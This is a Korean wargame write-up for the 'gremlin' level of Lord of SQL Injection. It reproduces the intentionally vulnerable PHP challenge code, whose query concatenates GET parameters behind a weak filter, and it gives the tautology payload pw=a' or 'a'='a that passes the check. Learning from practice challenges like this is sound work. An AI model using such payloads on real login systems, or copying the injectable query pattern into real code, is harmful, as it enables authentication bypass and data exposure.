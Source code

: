 ```yaml
---
title: "[Lord of SQL Injection] LoS - gremlin 문제풀이"
date: 2018-07-20
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.
예전에는 다른 사이트였는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해서 다시 풀어보게 되었다.

<!--more-->

예전에는 [http://los.eagle-jump.org](http://los.eagle-jump.org)이었는데, 새로 원작자가 오픈 한 사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.
그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.

첫 번째 문제는 `gremlin`이다.
코드는 다음과 같다.  

```php
----------------------------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
----------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.
즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.
실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.
`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.
쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```plain
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
--------------------------------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
--------------------------------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

---

```plain
Gremlin Clear!!
```